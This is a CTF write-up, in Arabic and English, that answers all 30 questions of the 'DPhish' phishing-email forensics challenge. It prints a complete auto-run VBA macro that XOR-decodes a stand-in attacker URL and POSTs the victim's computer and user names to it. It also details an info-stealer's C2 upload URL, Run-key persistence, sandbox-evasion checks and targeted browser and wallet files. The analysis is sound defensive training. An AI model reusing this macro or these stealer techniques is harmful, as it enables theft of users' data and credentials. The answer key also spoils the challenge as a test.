

# DPhish — Phishing Email Analysis

<!-- more -->

<div class="rtl-content" markdown>

> *بسم الله في حوار جديد في الـ Cyber Security*
>
> *متأخر جداً عارفه، بس ده ميغنيش إنه فرصة ممتازة عشان نتعلم الـ Email Analysis. حتى أنا نفسي اتعلمت من أسبوعين — كان في CTF اسمه DPhish، كانت عبارة عن Phishing Email نعمله Analysis ونجاوب على 30 سؤال. الحمد لله كنت حليت الـ 30 سؤال واتأهلت، بس مقدرتش أحضر النهائيات.*
>
> *هنحل التشالنج وفي نفس الوقت هنفكر بتفكير الـ Forensics Engineer العادي.*


## Challenge Description

اسم الملف: `challenge.eml`
رابط تحميل ال Chaallenge : [text](https://drive.google.com/file/d/1yJHKJuiVMfEm0MtQzljk0YqMbvDfyV5v/view?usp=sharing)
</div>
DPhish — Phishing Email Analysis

You are a SOC analyst at ByPaid Solutions. An employee named Babar has reported a suspicious email they received from the HR department.

Your job is to investigate this email thoroughly:

* Analyze the email headers to trace the true origin of this message
* Examine all attachments — some may contain malicious content, and not all of them are immediately visible
* Investigate the linked website referenced in the email body
* Reverse-engineer any binaries or macros found in the attachments

Rules:

* All analysis must be performed in an isolated VM/sandbox environment
* Answers are case-insensitive
* Some questions have limited attempts — read carefully before submitting
* Hints are available but cost 100 points each
<div class="rtl-content" markdown>
## البداية — فتح الملف

هنبدأ إننا نفتحه على VM معزولة، عشان ممكن يكون في مالوير في صور ولما نفتح الميل بيرن، فا عشان نكون حذرين.

```
cat challenge.eml
```


## Warm-up: Subject Line
</div>
Question: What is the subject line of the phishing email?

Answer: `Urgent: Employee Salary Revision and Policy`

## Phase 1 — Email Headers Analysis

## Q1 — Mail Gateway Hostname

Question: What is the hostname of the mail gateway that actually sent this email? (found in the Received header)
<div class="rtl-content" markdown>
لو خدت بالك في الـ Received header هتلاقي:

```
Received: from mail.evil.owndomain.online by mx.bf456
```

يعني هو في الأصل من `mail.evil.owndomain.online` وحد أخده سلّمه للـ domain المخبّي — ده السيرفر الأساسي للهاكر والذي يستضيف الـ domain الظاهر في الـ `From` فوق.

> *المهاجم يقدر يزوّر* `<em class="hh">From: hr@bypaid.io</em>` *بسهولة، لكن الـ Received headers بتُضافها كل mail server في الطريق — وده أصعب تزويره بكتير.*


Answer: `mail.evil.owndomain.online`
</div>
## Q2 — Originating IP Address

Question: What is the originating IP address of the sender?
<div class="rtl-content" markdown>
الـ IP موجود جنب الـ hostname في نفس الـ Received header.


Answer: `185.199.42.13`

## Q3 — SPF Verification Result

Question: What is the SPF verification result for this email?

ده واحد من أهم تلات بروتوكولات في الـ Header Analysis:

البروتوكول الوظيفة
SPFهل الـ IP مسموحله يبعت؟

DKIMهل الإيميل اتوقّع رقمياً من الدومين؟

DMARCلو SPF أو DKIM فشلوا، إيه اللي يحصل؟

هو بيسأل عن SPF، فا الإجابة `softfail` — يعني إن الـ IP مشكوك فيه، بس الـ rules بتاعة الـ mail gateway عدّته في الـ spam.


Answer: `softfail`

## Q4 — Reply-To Email Address

Question: What is the Reply-To email address?

في الطبيعي: `From == Reply-To`

بس في الميل ده لو ركّزت هتلاقي:
</div>
```
From:     hr@bypaid.io                        ← بيظهر شرعي للضحية
Reply-To: hr-support@evil.owndomain.online    ← مخبي! 🚨
```


Answer: `hr-support@evil.owndomain.online`

## Q5 — Mail Client / Tool Used

Question: What mail client or tool was used to send this email? (include version)


Answer: `PyMailer 3.2.1`

## Q6 — Message-ID Domain

Question: What is the domain found in the Message-ID header?


Answer: `evil.owndomain.online`

## Phase 2 — Attachments Analysis

Q7 : What engine/tool was used to create the PDF file? (include version)
<div class="rtl-content" markdown>
طيب بيقولي التول الي عملت ال pdf

اي pdf ?هو في ملفات في الميل؟لو عملت سكرول شويه كدا هتلاقي انالسيز ل


نص الميل نفسه


Salary\_Report\_2026.pdf


Policy\_Update.doc


Meeting\_Invite.ics

Update\_Tool.exe


text/html

طيب عايزين نستخرجهم عشان نعرف اي دول

## استخراج الملفات

هنستخرج الملفات من الميل بسكريبت بسيط:
</div>
```
python3 << 'EOF'
import email
with open('challenge.eml', 'rb') as f:
    msg = email.message_from_binary_file(f)
for part in msg.walk():
    fn = part.get_filename()
    # اسأل كل part: عندك اسم ملف؟
    if fn:
    # لو أيوه → ده attachment
        data = part.get_payload(decode=True)
        # get_payload(decode=True):
        # - اجبلي محتوى الملف
        # - decode=True: لو محتوى الملف مشفر بـ base64، افكّه أول
        open(fn, 'wb').write(data)
        # احفظ المحتوى في ملف باسمه الأصلي
        # 'wb' = write + binary
        print(f"✅ {fn} ({len(data):,} bytes)")
EOF
```
<div class="rtl-content" markdown>
الناتج:

```
✅ Policy_Update.doc       (35,840 bytes)
✅ Meeting_Invite.ics      (760 bytes)
✅ Update_Tool.exe         (490,496 bytes)
✅ Salary_Report_2026.pdf  (2,764 bytes)
```

## التحقق من الملفات

عايزين تفاصيل أكتر عن الملفات، وكمان نتأكد من الـ extensions بتاعتهم — لو في حاجة متغيرة أو double extension مثلاً:

```
file Policy_Update.doc Meeting_Invite.ics Update_Tool.exe Salary_Report_2026.pdf
```

```
Policy_Update.doc  → Composite Document File V2 Document  (= OLE format = Word قديم)
Meeting_Invite.ics → ASCII text
Update_Tool.exe    → PE32+ executable x86-64, for MS Windows
Salary_Report.pdf  → PDF document, version 1.4
```


## Phase 3 — PDF Analysis

## Q7 — PDF Creation Tool

Question: What engine/tool was used to create the PDF file? (include version)

بنستخدم `exiftool` عشان تظهرلنا كل الـ metadata بتاعت الملف:

```
exiftool Salary_Report_2026.pdf
```


هتلاقي في الـ Creator: `wkhtmltopdf 0.12.6` — وده tool بيحوّل صفحات الـ HTML إلى PDF.

> *فرق مهم:*

* Creator = البرنامج اللي عمل المحتوى الأصلي → `wkhtmltopdf` (أداة تحوّل HTML → PDF)
* Producer = الـ PDF library اللي أنشأت ملف الـ PDF نفسه → `ReportLab`

> *يعني المهاجم عمل صفحة HTML احترافية وحوّلها PDF.*

Answer: `wkhtmltopdf 0.12.6`

## Q8 — PDF Author

Question: Who is listed as the Author in the PDF metadata?

Answer: `dphish_admin`

## Q9 — PDF Producer

Question: What is the Producer listed in the PDF metadata? (include version)

Answer: `ReportLab v4.1`

## Q10 — Custom Reference Keyword

Question: What is the custom reference keyword hidden in the PDF metadata?

> *ودي reference keyword بنستخدمها عشان الميلات اللي عندها رد تلقائي.*

Answer: `CTF-2026-PHISH`

## Q11 — Employee ID

Question: What is the Employee ID of the highlighted employee in the salary table?


Answer: `EMP-2026-4491`

## Phase 4 — VBA Macro Analysis

## كيف عرفنا إن في ماكرو؟

لو رجعنا لنتيجة الـ `file` command:

```
Policy_Update.doc → Composite Document File V2 Document (= OLE format = Word قديم)
```

الإصدارات القديمة كانوا بيستخدموا نفس الـ file extension اللي هو `.doc` للاتنين — على عكس الإصدارات الجديدة لـ Office إن الملف العادي `.docx` والماكرو `.docm`.

كمان الـ command قالنا إنه OLE format — يعني إيه؟

> *OLE = Object Linking and Embedding فورمات لـ structure بيجمع أنواع الداتا المختلفة في ملف واحد. فا في tool بتفك الـ structure ده وده اللي احنا محتاجينه.*

```
olevba Policy_Update.doc
```


لو قرأت الجدول هتلاقي `AutoExec` — يبقى ماكرو. وكمان لو خدت بالك `MSXML2.XMLHTTP` ده السيرفر اللي بيتوصل بيه، وكمان `XOR` — وكده عرفنا إنه C2.

## كود الماكرو كامل
</div>
```
'─────────────────────────────────────────────────────
' الـ Triggers — بيشتغلوا لوحدهم لما الملف يتفتح
'─────────────────────────────────────────────────────
Sub AutoOpen()
    InitUpdate          ' ← ينادي InitUpdate فوراً
End Sub
Sub Document_Open()     ' ← نفس الشيء للـ compatibility مع إصدارات مختلفة
    InitUpdate
End Sub
'─────────────────────────────────────────────────────
' الكود الحقيقي - InitUpdate هي الـ auto-execute subroutine
'─────────────────────────────────────────────────────
Sub InitUpdate()
    Dim encodedUrl() As Variant
    Dim xorKey As Byte
    Dim decodedUrl As String
    Dim i As Long
    xorKey = &H4D       ' الـ XOR key = 0x4D (= 77 decimal)
    ' الـ URL مشفّر - مش ممكن تقراه مباشرة
    encodedUrl = Array(&H25, &H39, &H39, &H3D, &H77, &H62, &H62, &H28, _
                       &H3B, &H24, &H21, &H63, &H22, &H3A, &H23, &H29, _
                       &H22, &H20, &H2C, &H24, &H23, &H63, &H22, &H23, _
                       &H21, &H24, &H23, &H28, &H62, &H2C, &H3D, &H24, _
                       &H62, &H2E, &H22, &H21, &H21, &H28, &H2E, &H39)
    ' فك التشفير - XOR كل byte مع المفتاح
    decodedUrl = ""
    For i = LBound(encodedUrl) To UBound(encodedUrl)
        decodedUrl = decodedUrl & Chr(CLng(encodedUrl(i)) Xor xorKey)
    Next i
    ' اجمع بيانات الجهاز
    Dim computerName As String
    Dim userName As String
    computerName = Environ("COMPUTERNAME")   ' اسم الجهاز
    userName     = Environ("USERNAME")       ' اسم المستخدم
    ' ابعت البيانات للـ C2 بـ HTTP POST
    Dim objHTTP As Object
    Set objHTTP = CreateObject("MSXML2.XMLHTTP")
    objHTTP.Open "POST", decodedUrl, False
    objHTTP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
    objHTTP.send "host=" & computerName & "&user=" & userName
    Set objHTTP = Nothing
End Sub
'─────────────────────────────────────────────────────
' Dead Code - مكتوب بس مش بيتنادى من أي حتة!
'─────────────────────────────────────────────────────
Sub VerifyPolicy()
    Dim policyHash As String
    policyHash = "A1B2C3D4E5F6"    ' ← بيانات وهمية
    Dim statusCode As Long
    statusCode = 0
End Sub
```
<div class="rtl-content" markdown>
Start To Answer By this code

## Q12 — XOR Key

Question: What is the XOR key used to obfuscate the URL in the macro? (hex format, e.g. 0xAB)


لو ركّزت في الكود هتلاقي: `xorKey = &H4D`

Answer: `0x4D`

## Q13 — Deobfuscated C2 URL

Question: What is the full deobfuscated C2 URL in the macro?

هتلاقي في الكود الـ `encodedUrl` — حطيناه في CyberChef ورجع:
</div>

encodedUrl = Array(&H25, &H39, &H39, &H3D, &H77, &H62, &H62, &H28, &H3B, &H24, &H21, &H63, &H22, &H3A, &H23, &H29, &H22, &H20, &H2C, &H24, &H23, &H63, &H22, &H23, &H21, &H24, &H23, &H28, &H62, &H2C, &H3D, &H24, &H62, &H2E, &H22, &H21, &H21, &H28, &H2E, &H39)

Answer: `<a class="as rg" href="http://evil.owndomain.online/api/collect" rel="noopener ugc nofollow" target="_blank">http://evil.owndomain.online/api/collect</a>`

## Q14 — HTTP Method

Question: What method does the macro use to send data to the C2?

<div class="rtl-content" markdown>

لو خدت بالك هتلاقي في الكود: `objHTTP.Open "POST"`

Answer: `POST`

## Q15 — Auto-execute Subroutine

Question: What is the name of the main auto-execute subroutine that performs the malicious action?

اسم الـ function اللي لقينا فيها الـ URL كان `InitUpdate`.

Answer: `InitUpdate`

## Q16 — Dead Code Function

Question: What is the name of the dead code function that is never called?

> *Dead Code يعني كود محطوط بس عشان يبان legit، لكنه مش بيتنادى أبداً — أو بيتنادى بس مش function أساسية.*

هتلاقيها `VerifyPolicy`.

Answer: `VerifyPolicy`

## Q17 — Department Code

Question: What is the Department Code found in the document content?


Answer: `FIN-0042`

## Phase 5 — EXE Binary Analysis

## Q18 — EXE C2 URL

Question: What is the full C2 server URL used by the executable for data exfiltration?

اللينك اللي فوق كان `/collect` وبيبعت بس الـ hostname + username. فا متوقع نلاقي حاجة تانية بتبعت كل الداتا.

فاكر الـ tool اللي جاوبنا بيها في ملف قبل كده؟ `wkhtmltopdf` — وقلنا إنها بتحوّل HTML → PDF.

```
الـ Attacker بيعمل phishing PDF:
  1. بيعمل HTML page تبان زي صفحة HR شرعية
  2. بيحوّلها PDF بـ wkhtmltopdf
  3. بيحط فيها رابط للموقع الوهمي
  والـ Creator بيكون "wkhtmltopdf"
```

طب ما نشوف الـ PDF تاني — كانت نتيجة الـ `file` command: `PDF document, version 1.4`.

مستفدناش أوي، طب نجرب نسحب كل الـ strings اللي في الـ binary؟

> *الـ endstream مش رابط — ده جزء من بنية الـ PDF نفسه.*

طب نجرب الملف التاني — ملف الـ exe: `Update_Tool.exe`

مفيش حاجة واضحة في الـ metadata، ممكن نحطه على IDA لكن هنتأكد الأول من tool الـ strings سريعاً:

```
strings Update_Tool.exe
```


اهو وكمان `/upload` — يبقى الإجابة:

Answer: `<a class="as rg" href="http://evil.owndomain.online/upload" rel="noopener ugc nofollow" target="_blank">http://evil.owndomain.online/upload</a>`

## Q19 — Registry Key Path

Question: What is the full registry key path used for persistence?

أشهر الـ registry keys في الـ Persistence:

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run      ← مش محتاج Admin
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Run      ← محتاج Admin
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

المفتاحالصلاحيةمتى يشتغلHKCUمش محتاج Adminكل startup للمستخدم الحاليHKLMمحتاج Adminكل startup لكل المستخدمينRun — كل startupRunOnce — مرة واحدة بس ثم يُمسح


هتلاقي: `Software\Microsoft\Windows\CurrentVersion\Run`

Answer: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

## Q20 — Registry Value Name

Question: What is the registry value name used for the persistence entry?

> *إيه الفرق بين Key وValue؟*
>
> `<em class="hh">Key = المجلد (HKCU\...\Run) Value = الـ entry جوّا المجلد HKCU\...\Run └── WindowsUpdateSvc = C:\...\Update_Tool.exe ↑ Value Name ↑ Value Data</em>`

Answer: `WindowsUpdateSvc`

## Q21 — Target Applications

Question: Name the three applications whose data the malware targets (comma-separated, alphabetical order)


Answer: `Discord, Google Chrome, Mozilla Firefox`

## Q22 — User-Agent String

Question: What is the full User-Agent string used in HTTP requests by the malware?


Answer: `Mozilla/5.0 (compatible; UpdateService/1.0)`

## Q23 — Mutex Name

Question: What is the mutex name created by the malware?

> *الـ Mutex إيه؟*
>
> *Mutex = Mutual Exclusion = قفل*
>
> *لو في نسختين من المالوير بتشتغلوا مع بعض، ممكن يتعارضوا ويعملوا مشاكل. الـ Mutex بيمنع ده:*

* النسخة الأولى بتعمل mutex باسم محدد
* النسخة التانية بتشوف الـ mutex موجود → تقفل نفسها

في العادة بيكون اسم عشوائي وبتعرفه من الـ API اللي بيستخدمها زي `CreateMutex | OpenMutex | WaitForSingle`، بس في الكود معانا هنا لقيناه باسمه عادي:


Answer: `Global\DPhishMutex2026`

## Q24 — VM/Sandbox Detection

Question: Name one process the malware checks for during VM/sandbox detection.

أول حاجة المالوير بيفحصها عشان يتأكد إنه في بيئة عادية أو sandbox، بيبص على أسماء زي:

```
vbox | vmware | sandbox | qemu | procmon | wireshark
```


Answer: `vmtoolsd.exe`

## Q25 — Target File Extensions

Question: What file extensions does the malware search for? (comma-separated, alphabetical)

```
.dat    ← ملفات بيانات المتصفح (cookies, credentials)
.txt    ← ملفات نصية ممكن فيها passwords أو notes
.wallet ← Cryptocurrency wallet files
```


Answer: `.dat,.txt,.wallet`

## Phase 6 — Phishing Website

## Q26 — Verification PIN

Question: What is the Verification PIN?

هنبدأ نشوف الـ link بتاع الـ phishing بيقول إيه — كل ده على الـ sandbox.

هلاقي صفحة زي تسجيل دخول، ومتوقع للـ scenario اللي معانا إنه ممكن يقصد الـ user اللي كان معمول عليه highlight.


فاكر في أول الـ writeup لما ظهرلنا `text/html`؟ معرفناش نعمل بيه إيه — ما نجرب نفك الـ encoding ونفهم؟

</div>

```
python3 << 'EOF'
import email
with open('challenge.eml', 'rb') as f:
    msg = email.message_from_binary_file(f)
for part in msg.walk():
    if part.get_content_type() == 'text/html':
        print(part.get_payload(decode=True).decode('utf-8', errors='ignore'))
EOF
```

<div class="rtl-content" markdown>

هيظهر كود HTML الميل كله وهتلاقي في آخره الـ PIN.


</div>

Answer: `729314`

## Q27 — Transaction ID

Question: What is the Transaction ID displayed?

بعد ما سجّلنا بكل حاجة هيظهرلنا الـ Transaction ID.


Answer: `TXN-8A3F-QZ91`

## Q28 — Internal Reference Number

Question: What is the Internal Reference Number shown on the success page?

Answer: `REF-DPHISH-2026-0042`

## Phase 7 — File Hashes

## Q29 — SHA256 of VBA Macro File

Question: What is the SHA256 hash of the attached file that contains a VBA macro?

```
sha256sum Policy_Update.doc
```


Answer: `2fed17ccf194e2b63734571b2a3b122363779ce920c20dc84798387de87a638`

## Q30 — SHA256 of Info-Stealer

Question: What is the SHA256 hash of the compiled info-stealer malware hidden in the email?

يقصد طبعاً الـ exe.

```
sha256sum Update_Tool.exe
```


Answer: `6b8f21832549f4a61e66dfd910196146e152a03f00ab0b2c11f06e7c7a01025e`
<div class="rtl-content" markdown>

## خلاصة — IOC Report



## ملاحظات للـ Investigation الحقيقي

في بعض الخطوات اللي ما استخدمناهاش — لو كنا بنعمل investigation حقيقي:

Email Threading: لو في emails تانية من نفس المهاجم؟ نفس الـ campaign؟

Lateral Movement Check: هل الإيميل اتبعت لناس تانيين في الشركة؟

```
grep -iE "^To:|^CC:" challenge.eml
```

Timestamp Analysis: التوقيت في الـ headers منطقي؟ الـ timezone في Received headers consistent؟

BCC Detection: ممكن الإيميل اتبعت لعدد كبير من الناس في BCC.

Threat Intelligence: التأكد من كل IP وURL ظهر معانا من الـ reputation بتاعته على الـ Threat Intel (VirusTotal, OTX AlienVault).

Dynamic Analysis: احنا ما محتاجناهوش أوي، لأن الـ exe كان واضح مش obfuscated وكان كفاية الـ static analysis.

> *وبس كده — إن أصبت فهو من عند الله، وإن أخطأت فهو من نفسي أو الشيطان.*

</div>